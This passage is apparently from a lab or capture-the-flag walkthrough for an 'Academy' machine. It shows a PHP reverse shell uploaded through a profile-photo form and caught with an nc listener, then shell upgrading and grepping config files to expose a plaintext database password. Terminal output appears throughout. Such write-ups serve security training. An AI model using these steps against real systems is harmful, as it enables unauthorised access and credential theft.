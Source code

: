 ### 6. logging

- navigate to /academy directory and login using regno and cracked password.
- use the pin to verify


## Exploitation

### 1. upload a reevrse php shell payload

Paylaod = ./shell1.php

- Turn on your nc listener on a port u prefer.
- open the payload in a text editor and change the IP to your attacker machine ip and port number to any port you chose.(in my case 1234).
- Navigate to 'http://192.168.100.189/academy/my-profile.php' and upload the payload under upload new photo.
- As soon as you save changes you will get a reverse shell on your nc listener.
- run "python3 -c 'import pty;pty.spawn("/bin/bash")'" to make the shell more interacative


		┌─[whoami@parrot]─[~/Desktop/task_machines/Academy]
		└──╼ $sudo nc -lvnp 1234
		Listening on 0.0.0.0 1234
		Connection received on 192.168.100.189 58762
		Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
		 01:55:15 up 31 min,  0 users,  load average: 0.13, 0.05, 0.06
		USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
		uid=33(www-data) gid=33(www-data) groups=33(www-data)
		/bin/sh: 0: can't access tty; job control turned off
		$ python3 -c 'import pty;pty.spawn("/bin/bash")'
		www-data@academy:/$ whoami
		whoami
		www-data
		www-data@academy:/$ 

- The reverse shell gave you access to www-data user on the machine.

### privilege escalation

- Navigate to '/var/www/html/academy/includes'
- print out everything and match the 'passw' string to get the varaibles nmaes password and its value.

		www-data@academy:/var/www/html/academy$ cd includes
		cd includes
		www-data@academy:/var/www/html/academy/includes$ cat * | grep passw*
		cat * | grep passw*
		$mysql_password = "My_V3ryS3cur3_P4ss";
		$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
		                               <li><a href="change-password.php">Change Password</a></li>
		www-data@academy:/var/www/html/academy/includes$ cat config.php
		cat config.php
		<?php
		$mysql_hostname = "localhost";
		$mysql_user = "grimmie";
		$mysql_password = "My_V3ryS3cur3_P4ss";
		$mysql_database = "onlinecourse";
		$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
		?>
